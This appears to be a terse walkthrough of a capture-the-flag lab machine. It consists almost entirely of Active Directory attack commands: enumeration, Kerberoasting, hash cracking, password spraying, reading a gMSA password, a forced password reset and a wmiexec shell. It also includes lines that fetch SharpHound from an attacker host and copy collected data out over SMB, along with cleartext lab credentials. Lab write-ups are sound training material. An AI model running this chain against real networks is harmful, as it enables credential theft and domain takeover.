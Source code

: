 ```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/hope.sharp
ldapdomaindump -u search\\hope.sharp -p IsolationIsKey? 10.10.11.129
./GetUserSPNs.py search.htb/hope.sharp -dc-ip 10.10.11.129 -request
john hash-web_svc -w=/usr/share/wordlists/rockyou.txt
crackmapexec smb 10.10.11.129 -u user_opt.txt -p @3ONEmillionbaby
sheetProtection
pfx2john staff.pfx > pfx_hash
./SharpHound.exe
./smbserver.py share . -smb2support -username df -password df
./BloodHound
./wmiexec.py 'search/tristan.davies:0xdf0xdf!!!@10.10.11.129'
```



```
nmap -sS -sC -sV -T5 -Pn 10.10.11.129
```
![image](https://user-images.githubusercontent.com/33616880/230699143-58aa6593-510f-4de6-be67-cbf555c08f22.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.129/FUZZ -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/230701612-546d5a49-33f8-4063-8d96-72d2d45f9cfe.png)


hope.sharp | IsolationIsKey?

![image](https://user-images.githubusercontent.com/33616880/230699047-df9e814d-0ef6-4377-97bd-72824e5dd6e5.png)


```
smbclient -L \\\\10.10.11.129\\ -U search.htb/hope.sharp
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/hope.sharp
```
![image](https://user-images.githubusercontent.com/33616880/230700602-75be21ee-a7d1-4ed8-8465-1a226ae419f0.png)
![image](https://user-images.githubusercontent.com/33616880/230700731-c773018c-6f8d-4ed7-8812-ced8a52b3d05.png)


```
ldapdomaindump -u search\\hope.sharp -p IsolationIsKey? 10.10.11.129
```
![image](https://user-images.githubusercontent.com/33616880/230699359-15a9ef35-6723-4822-b1e6-ab93ec59e2cb.png)
![image](https://user-images.githubusercontent.com/33616880/230699421-3b664dda-82d1-473a-8c1f-2b29de81fb90.png)


```
cp /usr/share/doc/python3-impacket/examples/GetUserSPNs.py .
./GetUserSPNs.py search.htb/hope.sharp -dc-ip 10.10.11.129 -request
```
![image](https://user-images.githubusercontent.com/33616880/230699598-ab7213a0-fb91-4395-a5b0-345b7e2fb34a.png)


```
john hash-web_svc -w=/usr/share/wordlists/rockyou.txt
```
web_svc | @3ONEmillionbaby

![image](https://user-images.githubusercontent.com/33616880/230699690-2850b510-c824-49fa-a20f-c4a3044c0fc1.png)


![image](https://user-images.githubusercontent.com/33616880/230699760-4770c7a8-b7ee-4a9d-9398-d2298e8863e4.png)


```
grep "HelpDesk User" domain_users.grep | awk -F'\t' '{print $3}'
```
![image](https://user-images.githubusercontent.com/33616880/230700117-68ed59b8-9ab2-4831-be38-7421ada171f7.png)



```
crackmapexec smb 10.10.11.129 -u user_opt.txt -p @3ONEmillionbaby
```
search.htb\Edgar.Jacobs:@3ONEmillionbaby

![image](https://user-images.githubusercontent.com/33616880/230700260-1809d1ec-e297-4d00-9ba5-5213526fed84.png)


```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/Edgar.Jacobs
```
![image](https://user-images.githubusercontent.com/33616880/230700969-8a257621-812a-4357-b398-5949598ce182.png)


![image](https://user-images.githubusercontent.com/33616880/230701046-18ec17fc-1694-4a03-9a76-90f26e1ae622.png)
```
unzip Phishing_Attempt.xlsx
sed -i 's/<sheetProtection[^>]*>//' xl/worksheets/sheet2.xml
zip -fr Phishing_Attempt.xlsx *
```
Sierra.Frye | $$49=wide=STRAIGHT=jordan=28$$18

![image](https://user-images.githubusercontent.com/33616880/230701177-73c2b4d3-8c15-4e0d-9930-900c7ce19fcf.png)
![image](https://user-images.githubusercontent.com/33616880/230701253-86e219b9-7f85-4d24-a73a-479962c1c0fa.png)


```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/Sierra.Frye
```
![image](https://user-images.githubusercontent.com/33616880/230701438-ca0a0370-ad85-4b25-bb67-c9491f61bde8.png)
![image](https://user-images.githubusercontent.com/33616880/230701452-c57c8661-21de-4ef7-bc42-0e57ef04ab48.png)
![image](https://user-images.githubusercontent.com/33616880/230701555-c290fc03-b77a-4471-8dbf-3ebf49ad7348.png)



![image](https://user-images.githubusercontent.com/33616880/230701672-0cf8bba7-d1d6-442d-b859-5371cf1395d7.png)
![image](https://user-images.githubusercontent.com/33616880/230701705-26df0b61-24f9-4d58-a34f-b7830a9f3358.png)
```
pfx2john staff.pfx > pfx_hash
john pfx_hash -w=/usr/share/wordlists/rockyou.txt
```
![image](https://user-images.githubusercontent.com/33616880/230701880-f44b38ab-db4a-45e3-9544-d36bb638e82f.png)
![image](https://user-images.githubusercontent.com/33616880/230701923-cfcd0109-1539-44e5-94e6-5200460228e7.png)


![image](https://user-images.githubusercontent.com/33616880/230702031-e7010f86-fe69-4c70-897d-f3312121b1b4.png)
```
python3 -m http.server 80
wget 10.10.14.4/SharpHound.exe -o SharpHound.exe
./SharpHound.exe
```
![image](https://user-images.githubusercontent.com/33616880/230702230-01468743-51b4-4de4-8cc5-d551ec9d23b7.png)
![image](https://user-images.githubusercontent.com/33616880/230702368-31f4bfd3-58cc-41fd-a2d2-6ffa6264cda3.png)



```
./smbserver.py share . -smb2support -username df -password df
```
```
net use \\10.10.14.4\share /u:df df
copy 20230408050326_BloodHound.zip \\10.10.14.4\share\
```
![image](https://user-images.githubusercontent.com/33616880/230702582-cbaa9574-1756-4d57-9405-98a64c26d111.png)
![image](https://user-images.githubusercontent.com/33616880/230702543-ff4a81d9-d0e4-4c98-a178-ecd3f25e694f.png)


```
neo4j console
```
```
./BloodHound --no-sandbox
```
![image](https://user-images.githubusercontent.com/33616880/230702699-6fd438f6-781c-4644-85b6-772e17713fd8.png)


mark user as owned

shortest to admin

![image](https://user-images.githubusercontent.com/33616880/230702940-0fd2b84e-cecb-40f6-9f23-9e64f4a29a64.png)



```
$gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
ConvertFrom-ADManagedPasswordBlob $mp

(ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword


$cred = New-Object System.Management.Automation.PSCredential BIR-ADFS-GMSA, $SecPass
Invoke-Command -ComputerName 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText '0xdf0xdf!!!' -force)} -Credential $cred
```


![image](https://user-images.githubusercontent.com/33616880/230703076-28fdc717-d1b7-4ea9-94bd-1c35d378850e.png)
![image](https://user-images.githubusercontent.com/33616880/230703110-45490071-b360-4172-91bf-735b46483878.png)


```
crackmapexec smb 10.10.11.129 -u tristan.davies -p '0xdf0xdf!!!'
```
![image](https://user-images.githubusercontent.com/33616880/230703231-2e3c66d2-d334-42e4-942b-451e11657cc7.png)



```
./wmiexec.py 'search/tristan.davies:0xdf0xdf!!!@10.10.11.129'
```
![image](https://user-images.githubusercontent.com/33616880/230714809-9dd294bd-b315-40d8-b82c-082a0a133860.png)

![image](https://user-images.githubusercontent.com/33616880/230714830-96b20de5-c6d6-477f-9fe4-318864d1972f.png)
